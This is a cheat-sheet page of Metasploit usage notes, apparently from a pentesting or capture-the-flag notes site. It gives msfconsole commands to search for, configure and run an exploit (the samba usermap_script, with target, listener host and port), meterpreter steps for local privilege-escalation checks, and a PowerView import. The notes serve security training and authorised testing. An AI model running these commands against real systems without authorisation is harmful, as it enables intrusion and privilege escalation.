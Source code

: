 ```yaml
---
title: "Metasploit"
date: 2024-6-28
tags: ["metasploit", "exploit", "vuln", "CVE", "privesc", "meterpreter", "Windows", "msfconsole", "searchsploit"]
---
```


---
{{< tab set1 tab1 active >}}msfconsole{{< /tab >}}
{{< tab set1 tab2 >}}meterpreter{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start msfconsole

<div>

```bash
msfconsole -q
```

</div>

#### Basic Commands

<div>

```bash
# Return to previous page
back
```

```bash
# Upgrade session
sessions -u
```

```bash
# quit metasploit
exit
```

</div>

#### Search Exploit

<div>

```bash
# For example: samba
search samba
```

```bash
# Choose by #num
use 15
```

```bash
# Choose by full path
use exploit/multi/samba/usermap_script
```

```bash
# Show exploit settings
options
```

```bash
# Set option, e.g.
set rhosts 10.10.11.10
```

```bash
set lhost 10.10.14.10
```

```bash
set lport 1337
```

```bash
# Run exploit
run 
```

</div>

<small>*Hint: If you see a session is opened, but sit at an empty line, just type your cmd and press enter*</small>

#### Add scripts from searchsploit

<div>

```bash
mkdir -p ~/.msf4/modules/exploits/linux
```

```bash
mkdir -p ~/.msf4/modules/exploits/windows
```

```bash
# For example a linux script
cp 12345.rb ~/.msf4/modules/exploits/linux
```

```bash
# Inside msfconsole
reload_all
```

```bash
# Search
search 12345
```

</div>

#### Fix no search result

<div>

```bash
# Inside msfconsole, check db status
db_status
```

```bash
sudo service postgresql start
```

```bash
update-rc.d postgresql enable
```

```bash
sudo msfdb init
```

```bash
# Go bask to msfconsole and check again
db_status
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Basic Commands

<div>

```bash
# Return from meterpreter
background
```

</div>

#### Use Exploit

<div>

```bash
# Quick look of potential privesc (Windows)
# Need to return from meterpreter
use post/multi/recon/local_exploit_suggester
```

```bash
# Select opened session
set session 1
```

```bash
# Show exploit settings
options
```

```bash
# Set option, e.g.
set rhosts 10.10.11.10
```

```bash
# Run exploit
run 
```

</div>

#### Use powershell

<div>

```bash
# Use powershell module
use powershell
```

```bash
# Import module
powershell_import /usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

```bash
# Spawn powershell session
powershell_shell 
```

</div>

{{< /tabcontent >}}

<br>